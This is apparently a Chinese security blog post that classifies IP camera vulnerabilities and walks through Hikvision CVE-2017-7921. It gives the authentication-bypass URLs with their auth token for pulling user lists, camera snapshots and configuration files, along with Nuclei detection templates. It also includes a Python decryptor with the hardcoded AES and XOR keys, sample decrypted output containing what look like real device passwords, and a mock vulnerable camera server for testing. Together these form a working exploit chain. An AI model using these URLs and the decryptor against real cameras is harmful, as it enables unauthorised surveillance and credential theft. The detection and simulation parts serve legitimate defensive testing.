

摄像头漏洞主要也分为画面泄露取证、Shell口令获取、WEB口令获取、视频流阻断这四种，本质上分成两种性质：
- 一种是“信息暴露型漏洞”：画面泄露取证、Shell口令获取、WEB口令获取  
- 一种是“控制与破坏型漏洞”：Shell口令获取、WEB口令获取、视频流阻断  

先说结论 ProjectDiscovery 生态能覆盖的主要是前者

## 画面泄露取证
包含如下：
- 未授权访问摄像头页面、
- RTSP 未鉴权、
- Web 接口可直接拉流、
- 截图接口未做权限校验、
### CVE-2017-7921
比较熟知的就该漏洞，是多款Hikvision Cameras存在不正确身份验证漏洞，可绕过身份验证机制并危及用户帐户。
可通过如下链接进行未认证操作,抓取基于 ONVIF 协议的快照
```shell
http://IP:PORT/Security/users?auth=YWRtaW46MTEK #检索用户	
http://IP:PORT/onvif-http/snapshot?auth=YWRtaW46MTEK #获取监控快照
http://IP:PORT/System/configurationFile?auth=YWRtaW46MTEK	#下载配置文件
```
该漏洞完全可以通过 Nuclei 进行检测，相关模板可参考：
```yaml
id: hikvision-cve-2017-7921-user-disclosure

info:
  name: Hikvision User Information Disclosure (CVE-2017-7921)
  author: yourname
  severity: high
  description: Detects unauthenticated user information disclosure.
  reference:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7921
  tags: hikvision,iot,user,disclosure

requests:
  - method: GET
    path:
      - "{{BaseURL}}/Security/users?auth=YWRtaW46MTEK"

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - "<User"
          - "<userName>"
          - "<?xml"
```

```yaml
id: hikvision-cve-2017-7921-snapshot-disclosure

info:
  name: Hikvision Snapshot Access Bypass (CVE-2017-7921)
  author: yourname
  severity: high
  description: Detects unauthenticated snapshot access.
  reference:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7921
  tags: hikvision,iot,snapshot,disclosure

requests:
  - method: GET
    path:
      - "{{BaseURL}}/onvif-http/snapshot?auth=YWRtaW46MTEK"

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: header
        words:
          - "image/jpeg"

```

```yaml
id: hikvision-cve-2017-7921-config-disclosure

info:
  name: Hikvision Configuration File Disclosure (CVE-2017-7921)
  author: yourname
  severity: critical
  description: Detects unauthenticated configuration file download.
  reference:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7921
  tags: hikvision,iot,config,disclosure

requests:
  - method: GET
    path:
      - "{{BaseURL}}/System/configurationFile?auth=YWRtaW46MTEK"

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - "<?xml"
          - "<DeviceInfo"
          - "<System"

```

## Shell口令获取
包含如下：
- 命令注入
- 弱口令 SSH / Telnet
- 固件硬编码密码
- 配置文件泄露
## Web口令获取
包含如下：
- 默认口令
- 弱口令
- 未授权后台
## 视频流阻断
包含如下：
- RTSP 会话耗尽、
- 设备资源耗尽、
- 服务异常触发、
- 网络层攻、

## 模拟CVE-2017-7921
### 利用情况
使用Python编写一个简单的脚本来模拟CVE-2017-7921漏洞的利用，获取摄像头的用户信息和快照。  
该漏洞主要利用三个URL ，所以通过http服务模拟简答测试器，响应对应的请求
- /Security/users?auth=YWRtaW46MTEK  获取用户信息

- /onvif-http/snapshot?auth=YWRtaW46MTEK  获取监控快照
其最终会返回一个图片显示
- /System/configurationFile?auth=YWRtaW46MTEK  下载配置文件
获取到的配置文件需要进一步解密，解密过程可以参考脚本，其大概原理先 AES 解密，再做一次 XOR 混淆还原，最后从结果里提取可读字符串
```python
#!/usr/bin/python3

from itertools import cycle
from Crypto.Cipher import AES
import re
import os
import sys

def add_to_16(s):
    while len(s) % 16 != 0:
        s += b'\0'
    return s 

def decrypt(ciphertext, hex_key='279977f62f6cfd2d91cd75b889ce0c9a'):
    key = bytes.fromhex(hex_key)
    ciphertext = add_to_16(ciphertext)
    #iv = ciphertext[:AES.block_size]
    cipher = AES.new(key, AES.MODE_ECB)
    plaintext = cipher.decrypt(ciphertext[AES.block_size:])
    return plaintext.rstrip(b"\0")

def xore(data, key=bytearray([0x73, 0x8B, 0x55, 0x44])):
    return bytes(a ^ b for a, b in zip(data, cycle(key)))

def strings(file):
    chars = r"A-Za-z0-9/\-:.,_$%'()[\]<> "
    shortestReturnChar = 2
    regExp = '[%s]{%d,}' % (chars, shortestReturnChar)
    pattern = re.compile(regExp)
    return pattern.findall(file)

def main():
    if len(sys.argv) <= 1 or not os.path.isfile(sys.argv[1]):
        return print(f'No valid config file provided to decrypt. For example:\n{sys.argv[0]} <configfile>')
    xor = xore( decrypt(open( sys.argv[1],'rb').read()) )
    result_list = strings(xor.decode('ISO-8859-1'))
    print(result_list)

if __name__ == '__main__':
    main()

```
经过解密后大致会得到如下信息
```plaintext
['IP CAMERA', 'CST', 'CST-8:00:00', 'Camera 01', 'Tt.', 'Tt.', 'puchie', 'PK]', 'Austin1409', 'Hik-622329175', '622329175', 'HIKVISION DS-2CD3Q10FD-IW - 622329175', 'time.windows.com', 'members.dyndns.org', 'dynupdate.no-ip.com', 'www.hik-online.com', 'public', 'private', 'public', 'admin', '12345', '2222d', '2d', '222', '2d', '222', 'd ', 'mainStream', 'Profile_1', 'VideoSourceToken', 'AudioSourceConfigToken', 'VideoEncoderToken_1', 'MainAudioEncoderToken', 'VideoAnalyticsToken', 'PTZToken', 'AudioOutputConfigToken', 'AudioDecoderConfigToken', 'subStream', 'Profile_2', 'VideoSourceToken', 'AudioSourceConfigToken', 'VideoEncoderToken_2', 'MainAudioEncoderToken', 'VideoAnalyticsToken', 'PTZToken', 'AudioOutputConfigToken', 'AudioDecoderConfigToken', 'thirdStream', 'Profile_3', 'VideoSourceToken', 'AudioSourceConfigToken', 'VideoEncoderToken_3', 'MainAudioEncoderToken', 'VideoAnalyticsToken', 'PTZToken', 'AudioOutputConfigToken', 'AudioDecoderConfigToken', '12345678', 'onvif://www.onvif.org/name/HIKVISION%20DS-2CD3Q10FD-IW', 'onvif://www.onvif.org/location/city/hangzhou', '22', '222', '34020000002000000001', '3402000000', '34020000001320000001', '34020000001320000001', '12345678', '34020000001320000001', '222d', '222', '22', '222d', '222', '22', 'dev.ys7.com', 'IJVLHY', '0000000000000000', '622329175', 'admin', '12345abc', '0:0:0:0:0:0:0:0:0:0:0:0:', ':0:0:0:', 'H(', 'BffrB', 'm timesegment_co', 'ETc', 'ETc', 'ETc', 'ET']
```
### 可用的模拟服务  
```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import base64
import os
from urllib.parse import urlparse, parse_qs

HOST = "0.0.0.0"
PORT = 8080

class VulnerableCamera(BaseHTTPRequestHandler):

    def do_GET(self):
        parsed = urlparse(self.path)
        path = parsed.path
        query = parse_qs(parsed.query)

        auth = query.get("auth", [""])[0]

        if auth:
            try:
                decoded = base64.b64decode(auth).decode(errors="ignore")
                print("Received auth:", decoded)
            except:
                pass

            if path == "/Security/users":
                self.send_response(200)
                self.send_header("Content-Type", "application/xml")
                self.end_headers()

                xml_data = b"""<?xml version="1.0" encoding="UTF-8"?>
                <UserList xmlns="http://www.hikvision.com/ver10/XMLSchema" version="1.0">
                <User xmlns="http://www.hikvision.com/ver10/XMLSchema" version="1.0">
                <id>1</id>
                <userName>admin</userName>
                <priority>high</priority>
                <ipAddress>0.0.0.0</ipAddress>
                <macAddress>00:00:00:00:00:00</macAddress>
                <userLevel>Administrator</userLevel>
                </User>
                </UserList>
                """
                self.wfile.write(xml_data)
                return

            elif path == "/System/configurationFile":
                CONFIG_PATH = "configurationFile"
                if not os.path.exists(CONFIG_PATH):
                        self.send_response(404)
                        self.end_headers()
                        self.wfile.write(b"Config file not found")
                        return

                self.send_response(200)
                self.send_header("Content-Type", "application/octet-stream")
                self.send_header("Content-Length", str(os.path.getsize(CONFIG_PATH)))
                self.send_header("Content-Disposition", 'attachment; filename="configurationFile"')
                self.end_headers()

                with open(CONFIG_PATH, "rb") as f:
                    self.wfile.write(f.read())

                return

            elif path == "/onvif-http/snapshot":
                IMAGE_PATH = "./snapshot.jpg" 
                if not os.path.exists(IMAGE_PATH):
                        self.send_response(404)
                        self.end_headers()
                        self.wfile.write(b"Image not found")
                        return

                self.send_response(200)
                self.send_header("Content-Type", "image/jpeg")
                self.send_header("Content-Length", str(os.path.getsize(IMAGE_PATH)))
                self.end_headers()

                with open(IMAGE_PATH, "rb") as f:
                    self.wfile.write(f.read())

                return

        self.send_response(401)
        self.end_headers()
        self.wfile.write(b"Unauthorized")


if __name__ == "__main__":
    print(f"Vulnerable camera running at http://{HOST}:{PORT}")
    server = HTTPServer((HOST, PORT), VulnerableCamera)
    server.serve_forever()

```